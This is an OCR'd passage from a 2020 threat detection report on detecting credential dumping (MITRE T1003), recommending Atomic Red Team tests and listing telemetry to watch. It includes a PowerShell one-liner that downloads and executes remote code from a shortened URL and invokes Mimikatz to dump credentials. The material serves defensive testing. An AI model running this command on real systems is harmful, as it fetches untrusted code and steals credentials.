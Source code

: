 activity. As such, monitoring of processes without CLI and/or context can lead to a large number of false positives, 

particularly with processes such as adfind.exe, taskmgr.exe, ntdsutil.exe, reg.exe, vssadmin.exe, PowerShell, and 

adexplorer.exe.

Testing

Start testing your defenses against Credential Dumping using Atomic Red Team—an open source testing framework of 

small, highly portable detection tests mapped to MITRE ATT\&CK.

76

2020 Threat Detection Report

Getting started 

View Atomic tests for T1003: Credential Dumping. In most environments, these should be sufficient to generate a useful 

signal for defenders.

Run this test on a Windows system using PowerShell:

powershell.exe “IEX (New\-Object Net.

WebClient).DownloadString(‘http://bit.ly/

L3g1tCrad1e’); Invoke\-Mimikatz \-DumpCr”

Useful telemetry will include:

DATA SOURCE

TELEMETRY

Process monitoring

powershell.exe

Process command line

“DownloadString”, “WebClient”, and the presence of a URL

Network connection

powershell.exe establishing an external network connection

77

 
2020 Threat Detection Report

Review and repeat 

Now that you have executed one or several common tests and checked for the expected results, it’s useful to answer some 

immediate questions:

• Were any of your actions detected?
